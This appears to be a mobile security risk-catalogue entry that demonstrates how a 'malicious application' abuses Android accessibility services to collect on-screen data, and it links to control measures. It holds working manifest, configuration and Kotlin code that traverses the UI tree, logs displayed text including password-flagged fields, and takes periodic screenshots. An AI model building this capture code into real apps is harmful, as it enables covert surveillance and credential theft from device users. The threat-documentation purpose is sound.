

## android-platform-feature-05-risk-03

### Title

Extracting on-screen text

### Description

Extract on-screen text using accessibility services to gather data of interest from the application (MITRE ATT&CK: ***Collection*** - TA0035).

### Demonstration

#### 01. Prepare the environment

Set up the required environment with:

* A physical Samsung A34 running Android 16 (api level 36)
* A physical Huawei P50 Pro running HarmonyOS 4.2.0 (Android API level 31)

#### 02. Create a malicious application

Create a malicious application by declaring an accessibility service in the manifest with `android.permission.BIND_ACCESSIBILITY_SERVICE` to register the application as an accessibility service.

```xml
<service
    android:name=".TextCaptureAccessibilityService"
    android:permission="android.permission.BIND_ACCESSIBILITY_SERVICE"
    android:exported="true">
    <intent-filter>
        <action android:name="android.accessibilityservice.AccessibilityService" />
    </intent-filter>
    <meta-data
        android:name="android.accessibilityservice"
        android:resource="@xml/accessibility_service_config_capture" />
</service>
```

*Code block shows Manifest.xml with `android.permission.BIND_ACCESSIBILITY_SERVICE`*

#### 03. Define how the accessibility service operates

Define how the accessibility service operates by 

(a) creating an XML configuration file in `@xml/accessibility_service_config_capture` to request relevant event types and window content access, and 

(b) implementing a service class (e.g., `.TextCaptureAccessibilityService) that listens for `TYPE_WINDOW_STATE_CHANGED` events, traverses the active UI hierarchy, extracts on-screen text and metadata, captures screenshots periodically, and persists the collected data after the user grants accessibility permission.

```xml
<?xml version="1.0" encoding="utf-8"?>
<accessibility-service xmlns:android="http://schemas.android.com/apk/res/android"
    android:accessibilityEventTypes="typeWindowStateChanged|typeWindowContentChanged"
    android:accessibilityFeedbackType="feedbackGeneric"
    android:accessibilityFlags="flagDefault|flagReportViewIds"
    android:canPerformGestures="false"
    android:canRequestEnhancedWebAccessibility="true"
    android:canRetrieveWindowContent="true"
    android:description="@string/accessibility_service_description"
    android:notificationTimeout="100" />
```

*Code block shows the accessibility service configuration file (`res/xml/<file name>.xml`)*.

```kotlin
private fun traverseNodeTree(
    node: AccessibilityNodeInfo,
    packageName: String,
    prefix: String,
    isLast: Boolean,
    depth: Int
) {
    try {
        val className = node.className?.toString()?.substringAfterLast('.') ?: "View"
        val text = node.text?.toString()
        val contentDesc = node.contentDescription?.toString()
        val hint = node.hintText?.toString()
        val viewId = node.viewIdResourceName?.substringAfterLast('/') ?: ""
        val isClickable = node.isClickable
        val isPassword = node.isPassword
        val isEditable = node.isEditable
        val isCheckable = node.isCheckable
        val isChecked = node.isChecked

        val connector = if (isLast) "└── " else "├── "
        val childPrefix = prefix + if (isLast) "    " else "│   "

        // Build a descriptive line for this node
        val nodeInfo = StringBuilder()
        nodeInfo.append("[$className]")

        if (viewId.isNotEmpty()) {
            nodeInfo.append(" id=$viewId")
        }

        // Always log the node structure
        val hasContent = !text.isNullOrEmpty() || !contentDesc.isNullOrEmpty() || !hint.isNullOrEmpty()

        if (hasContent || isClickable || isEditable) {
            Log.i(TAG, "$prefix$connector $nodeInfo")

            // Log text content
            if (!text.isNullOrEmpty()) {
                val label = when {
                    isPassword -> "PASSWORD"
                    isEditable -> "INPUT"
                    isClickable -> "BUTTON"
                    else -> "TEXT"
                }
                Log.i(TAG, "$childPrefix   $label: \"$text\"")
            }

            // Log hint
            if (!hint.isNullOrEmpty()) {
                Log.i(TAG, "$childPrefix   HINT: \"$hint\"")
            }

            // Log content description
            if (!contentDesc.isNullOrEmpty()) {
                Log.i(TAG, "$childPrefix   DESC: \"$contentDesc\"")
            }
```

*Code block shows code logic to scrape for strings on shown on screen*

```kotlin
private fun startScreenshotTimer() {
    handler.postDelayed(object : Runnable {
        override fun run() {
            if (isScreenshotEnabled) {
                takeScreenshot()
                handler.postDelayed(this, SCREENSHOT_INTERVAL)
            }
        }
    }, SCREENSHOT_INTERVAL)
    Log.i(TAG, "Screenshot timer started - capturing every ${SCREENSHOT_INTERVAL/1000}s")
}

private fun takeScreenshot() {
    if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.P) {
        val success = performGlobalAction(GLOBAL_ACTION_TAKE_SCREENSHOT)
        screenshotCount++
        if (success) {
            Log.i(TAG, "📸 Screenshot #$screenshotCount captured (saved to device Screenshots folder)")
        } else {
            Log.w(TAG, "📸 Screenshot #$screenshotCount failed")
        }
    } else {
        Log.w(TAG, "Screenshots require Android 9+ (API 28)")
    }
}
```

*Code block shows code logic to take a screenshot*

#### 04. Install the malicious application

Install the malicious application on the device, perform the steps listed in [android-platform-feature-05](android-platform-feature-05.md), and then launch and use the benign application to trigger accessibility event capture.


*Screenshot shows the system prompt requesting permission to control the device.*



*Screenshot shows captured interface text in the Text Scraper application.*

#### 05. View the apps listed

Navigate to `Settings → Accessibility` to view the apps listed under the `Downloaded apps` section that provide accessibility services.


*Screenshot shows downloaded applications listed in Accessibility settings.*

#### 06. Activate its accessibility service

Select an app and toggle `Use <app name>` to activate its accessibility service.


*Screenshot shows the toggle for enabling an application's accessibility service.*


Android-Platform-Feature-05-Risk-03 control measures:

- [android-platform-feature-05-risk-03-control-01](android-platform-feature-05-risk-03-control-01.md)
